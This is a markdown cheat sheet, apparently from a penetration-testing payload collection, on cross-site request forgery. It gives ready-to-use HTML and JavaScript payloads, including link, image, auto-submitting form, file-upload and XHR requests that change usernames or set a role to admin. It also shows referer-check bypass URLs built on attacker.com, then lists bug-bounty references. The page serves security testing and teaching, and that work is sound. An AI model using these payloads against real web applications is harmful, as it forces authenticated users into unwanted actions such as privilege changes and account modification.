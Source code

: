 +++
title = "CSRF Injection"
date = "2023-03-28"
description = "All about CSRF injection techniques, methods, payloads, how/why/when they work."
include_toc = 'true'
+++

# Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that **forces an end user to execute unwanted actions on a web application in which they're currently authenticated**. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP


## Tools

* [XSRFProbe - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.](https://github.com/0xInfection/XSRFProbe)

## Methodology

![CSRF_cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSRF%20Injection/Images/CSRF-CheatSheet.png?raw=true)

## Payloads

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.

### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

### HTML POST - multipart/form-data with file upload - Requiring User Interaction

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```


### JSON GET - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

### JSON POST - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

### JSON POST - Complex Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Bypass referer header validation

### Basic payload
```
1) Open https://attacker.com/csrf.html
2) Referer header is ..

Referer: https://attacker.com/csrf.html
```
### With question mark(`?`) payload
```
1) Open https://attacker.com/csrf.html?trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html?trusted.domain.com
```

### With semicolon(`;`) payload
```
1) Open https://attacker.com/csrf.html;trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html;trusted.domain.com
```

### With subdomain payload
```
1) Open https://trusted.domain.com.attacker.com/csrf.html
2) Referer headers is ..

Referer: https://trusted.domain.com.attacker.com/csrf.html
```

## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton](https://whitton.io/articles/messenger-site-wide-csrf/) 
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial](https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali](http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - vijay kumar](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How i Hacked your Beats account ? Apple Bug Bounty - @aaditya_purani](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Dr.Jones](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross site request forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass referer check logic for CSRF](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)
